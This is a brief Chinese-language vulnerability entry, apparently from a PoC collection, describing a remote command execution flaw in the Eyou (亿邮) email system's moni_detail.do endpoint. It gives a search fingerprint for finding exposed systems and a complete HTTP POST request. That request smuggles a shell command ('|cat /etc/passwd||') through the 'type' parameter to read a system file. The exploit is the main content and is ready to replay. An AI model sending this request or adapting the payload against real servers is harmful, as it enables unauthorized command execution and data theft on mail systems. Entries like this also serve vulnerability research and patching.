

# 亿邮电子邮件系统 moni_detail.do 远程命令执行漏洞

## 漏洞描述

亿邮电子邮件系统 存在远程命令执行漏洞，攻击者可以执行任意命令

## 漏洞影响

<a-checkbox checked>亿邮电子邮件系统</a-checkbox></br>

## 网络测绘

<a-checkbox checked>body="亿邮电子邮件系统"</a-checkbox></br>

## 漏洞复现

登录页面如下


漏洞请求包如下


```plain
POST /webadm/?q=moni_detail.do&action=gragh HTTP/1.1
Host: 
Content-Length: 39
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/89.0.4389.114 Safari/537.36

type='|cat /etc/passwd||'
```




